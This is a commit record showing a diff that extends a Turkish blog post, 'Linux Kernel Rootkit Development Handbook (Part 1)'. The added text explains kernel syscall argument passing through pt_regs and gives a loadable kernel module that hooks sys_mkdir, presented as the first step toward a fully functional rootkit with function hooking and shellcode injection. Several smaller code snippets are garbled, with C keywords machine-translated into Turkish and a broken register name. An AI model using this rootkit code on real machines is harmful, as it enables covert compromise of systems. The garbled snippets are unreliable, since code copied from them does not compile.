

Before and after one commit to onkagitci/onkagitci, a Jekyll site: the page built from _posts/2020-12-24-Linux-Kernel-Rootkit-Development-Handbook-(Part 1).md, in a window 1280 px wide and 1400 px high, scrolled down 4439 px. Shown: the whole window, without its empty margins (8-871 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 4975 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2020-12-24-Linux-Kernel-Rootkit-Development-Handbook-(Part 1).md

````diff
--- a/_posts/2020-12-24-Linux-Kernel-Rootkit-Development-Handbook-(Part 1).md
+++ b/_posts/2020-12-24-Linux-Kernel-Rootkit-Development-Handbook-(Part 1).md
@@ -202,3 +202,108 @@
 Hepsi usermod için iyidir, peki ya kernel? Rootkitlerimiz çekirdek bağlamında çalışacak, bu nedenle çekirdeğin sistem çağrılarını nasıl işlediğini biraz anlamalıyız.
 
 Ne yazık ki, işlerin biraz farklı olmaya başladığı yer burası. 64 bitlik çekirdek sürümleri `4.17.0` ve üzeri, sistem çağrılarının kernel tarafından işlenme biçimi değişti. İlk olarak, eski yönteme bakacağız çünkü bu,` Ubuntu 16.04` gibi dağıtımlar için hala geçerli ve eski yöntem mantığı oturduğunda daha yeni sürümün anlaşılması çok daha kolay.
+
+Çekirdekteki `sys_read` için kaynak koduna bakarsak, şunu görürüz:
+
+```
+asmlinkage uzun sys_read (işaretsiz int fd, char __user * buf, size_t sayısı);
+```
+
+2016'da, argümanlar sisteme tam olarak göründüğü gibi aktarıldı. `Sys_read` için bir hook yazıyor olsaydık, bu işlev bildirimini kendimiz taklit etmemiz gerekirdi ve (kancayı bir kez yerine koyduğumuzda), bu argümanlarla istediğimiz gibi oynayabilirdik.
+
+(64 bit) kernel sürüm `4.17.0` ile bu durum değişti. İlk önce kullanıcı tarafından yazmaçlarda depolanan argümanlar `pt_regs` adlı özel bir yapıya kopyalanır ve sonra sistem çağrısina iletilen tek şey budur. Sistem çağrısı daha sonra ihtiyaç duyduğu argümanları bu yapıdan çıkarmaktan sorumludur. Ptrace.h dosyasına göre aşağıdaki biçime sahiptir:
+
+```
+struct pt_regs {
+    işaretsiz uzun bx;
+    işaretsiz uzun cx;
+    işaretsiz uzun dx;
+    işaretsiz uzun si;
+    işaretsiz uzun di;
+    / * anlaşılır olması için yeniden düzenlendi * /
+};
+
+```
+
+
+Bu, `sys_read` durumunda şuna benzer bir şey yapmamız gerektiği anlamına gelir:
+
+```
+asmlinkage uzun sys_read (const struct pt_regs * regs)
+{
+    int fd = regs-> di;
+    char __user * buf = regs-> si;
+    size_t count = regs-> d;
+    / * işlevin geri kalanı * /
+}
+
+```
+
+Tabii ki, kernel bizim için işi yaptığından, gerçek `sys_read`'in bunu yapmasına gerek yoktur. Ancak bir hook fonksiyonu yazarken argümanları bu şekilde ele almamız gerekecek.
+
+Bu kadar temel bilgiden sorna, artık rootkitimizin yapacağı temel işlevleri olulşturmaya başlıyabiliriz. Bu makalenin sonunda tam işlevli bir rootkit yazmış olacağız.
+
+
+# II.Rootkit İşlevleri
+
+
+*syscallhooking*
+*function hooking*
+*process shellcode injection*
+
+
+
+### 1. Syscallhooking
+
+Tüm bunların dışında, bir hadi bir `function hook` yazmaya başlayalım! `Sys_mkdir` için, oluşturulmakta olan dizinin adını kernel buffer ına yazdıran çok basit bir hook oluşturmak için yukarıdaki iki yöntemi dikkate alacağız. Daha sonra gerçek `sys_mkdir` yerine bu hook fonksiyonu geçireceğiz.
+
+Öncelikle, hangi kernel sürümünü derlediğimizi kontrol etmemiz gerekecek - `linux/version.h` bu konuda bize yardımcı olacaktır. Ardından işleri bizim için basitleştirmek için bir dizi `önişlemci makrosu` kullanacağız.
+
+```
+#include <linux/init.h>
+#include <linux/module.h>
+#include <linux/kernel.h>
+#include <linux/syscalls.h>
+#include <linux/version.h>
+#include <linux/namei.h>
+
+MODULE_LICENSE("GPL");
+MODULE_VERSION("0.01");
+
+#if defined(CONFIG_X86_64) && (LINUX_VERSION_CODE >= KERNEL_VERSION(4,17,0))
+#define PTREGS_SYSCALL_STUBS 1
+#endif
+
+#ifdef PTREGS_SYSCALL_STUBS
+static asmlinkage long (*orig_mkdir)(const struct pt_regs *);
+
+asmlinkage int hook_mkdir(const struct pt_regs *regs)
+{
+    char __user *pathname = (char *)regs->di;
+    char dir_name[NAME_MAX] = {0};
+
+    long error = strncpy_from_user(dir_name, pathname, NAME_MAX);
+
+    if (error > 0)
+        printk(KERN_INFO "rootkit: trying to create directory with name: %s\n", dir_name);
+
+    orig_mkdir(regs);
+    return 0;
+}
+#else
+static asmlinkage long (*orig_mkdir)(const char __user *pathname, umode_t mode);
+
+asmlinkage int hook_mkdir(const char __user *pathname, umode_t mode)
+{
+    char dir_name[NAME_MAX] = {0};
+
+    long error = strncpy_from_user(dir_name, pathname, NAME_MAX);
+
+    if (error > 0)
+        printk(KERN_INFO "rootkit: trying to create directory with name %s\n", dir_name);
+
+    orig_mkdir(pathname, mode);
+    return 0;
+}
+#endif
+```
````
